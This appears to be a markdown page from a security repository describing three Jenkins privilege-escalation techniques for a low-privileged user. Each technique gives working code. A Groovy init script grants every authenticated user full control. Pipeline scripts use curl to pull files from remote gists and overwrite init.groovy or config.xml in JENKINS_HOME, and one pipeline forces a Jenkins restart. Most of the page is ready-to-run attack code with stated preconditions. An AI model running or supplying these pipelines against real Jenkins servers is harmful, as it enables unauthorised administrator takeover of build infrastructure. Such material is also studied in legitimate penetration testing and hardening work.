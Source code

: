 # Privilege Escalations

- In a scenario where we have limited options to do due to the privileges a user currently has, we might need to escalate to other privileges.
- The Matrix-based security/ Project-based Matrix Authorization Strategy is used to define authorization and scopes and they store the configurations in xml files.
- In our privilege escalation techniques we will try to escalate our privileges to an administrator.




## Give admin access to all authenticated users by executing a groovy script - Technique 1

- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is Jenkins would need a restart after this attack.
- We need to write a init.groovy script that will give the authenticated users admin access 
- We will write a pipeline script to download that init.grooy script that will be replaced in the JENKINS_HOME location.
- init.groovy script will run after the Jenkins initialization, hence a Jenkins reboot is required.
- We will wait for a restart and our low privileged user will have admin access.

init.groovy
``` Groovy
//code copied from http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.FullControlOnceLoggedInAuthorizationStrategy()
strategy.setAllowAnonymousRead(false)
instance.setAuthorizationStrategy(strategy)

instance.save()
```

pipeline
``` Jenkinsfile
pipeline {
    agent any
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o /var/lib/jenkins/init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/476980613a3f23af11bc958f8a03fc40689987ff/HOOK.groovy
                  '''
            }
        }         
    }
}
```


## Escalate to adminstrator role through groovy init scripts - Technique 2 ( Restart using Pipeline )

- In the previous example we were dependant on the Jenkins restart by admin. 
- It is possible to initiate Jenkins restart by Jenkins Pipeline and in order to do so we need a script approval from admin.
- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is we need to run this pipeline without sandbox mode ( Uncheck in Project Configuration ```Use Groovy Sandbox``` )
- The 3rd condition is admins need to approve this scripts.

To carry out the attack
- We need to write a init.groovy script that will give the authenticated users admin access 
- We will write a pipeline script to download that init.grooy script that will be replaced in the JENKINS_HOME location.
- init.groovy script will run after the Jenkins initialization, hence a Jenkins reboot is required.
- We will write another stage to Restart the Jenkins and start the job.
- Admin need to approve the scripts.
- We need to rerun the attack after the script approval and we will gain admin access after the restart.

init.groovy
``` Groovy
//code copied from http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.FullControlOnceLoggedInAuthorizationStrategy()
strategy.setAllowAnonymousRead(false)
instance.setAuthorizationStrategy(strategy)

instance.save()
```

pipeline
```
pipeline {
    agent any
    
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o /var/lib/jenkins/init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/476980613a3f23af11bc958f8a03fc40689987ff/HOOK.groovy
                  '''
            }
        }
        stage('Restart Jenkins') {
            steps {
                script {
                    Jenkins.instance.restart()
                }
            }
        }        
    }
}
```



## Escalate to adminstrator role by modifying the config.xml file

- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is that either we need a restart or a reload of configuration data from disk.
- We will dump the config.xml
- We will modify the config.xml to add builduser as admin ``` <permission>USER:hudson.model.Hudson.Administer:builduser</permission> ```
- Next we will run a pipeline that will download and replace the config.xml with the modified xml
- From the next restart or reloading of config data, our changes will take effect.

```
pipeline{
    agent any
    stages{
        stage("Dump config.xml file"){
            steps{
                sh '''
                    cat /var/lib/jenkins/config.xml
                '''
            }
        }
        stage("Replace the modified config.xml file"){
            steps{
                sh '''
                    curl -o /var/lib/jenkins/config.xml https://gist.githubusercontent.com/dibsy/1548ae721e687cc86b9d4a95cc3bafa5/raw/2a3693b17c638f27f1be56af62d85de0309144cb/configModified.xml
                '''
            }
        }        
    }
}
```
